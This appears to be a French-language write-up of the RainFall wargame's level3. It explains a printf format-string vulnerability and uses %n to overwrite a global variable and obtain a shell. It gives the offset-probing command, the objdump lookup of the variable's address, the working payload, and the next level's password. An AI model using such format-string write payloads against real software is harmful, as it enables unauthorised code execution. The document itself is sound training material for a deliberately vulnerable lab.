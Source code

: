 # Analyse du code

Dans le code nous voyons qu'il y a une fonction v(), qui ouvre un shell lorsque m = 0x40.
Nous ne pouvons pas interagir directement avec m, mais grace a printf qui manque de sanitazer, nous pouvons exploiter cette faille afin de changer la valeur de m

(%n permet d'affecter une valeur a une varaible dans printf. il va prendre le nombre de char avant) 

# Preparation du payload

- trouver le buffer utilser par printf

level3@RainFall:~$ echo $(python -c "print('a'*4 + '.%x' * 9)") | ./level3
aaaa.200.b7fd1ac0.b7ff37d0.61616161.2e78252e.252e7825.78252e78.2e78252e.252e7825

- adresse de m
	level3@RainFall:~$ objdump -t ./level3  |grep m
	./level3:     file format elf32-i386
	[…]
	08 04 98 8c   g     O .bss   00000004              m
	[…]
- payload
	 $(python -c  "print('\x8c\x98\x04\x08' + '%60x%4\$n')")
	 %60x -> 60char avant + adresse de m qui va faire 64 

# Exploit
	echo $(python -c  "print('\x8c\x98\x04\x08' + '%60x%4\$n')") > /tmp/_
	cat  /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa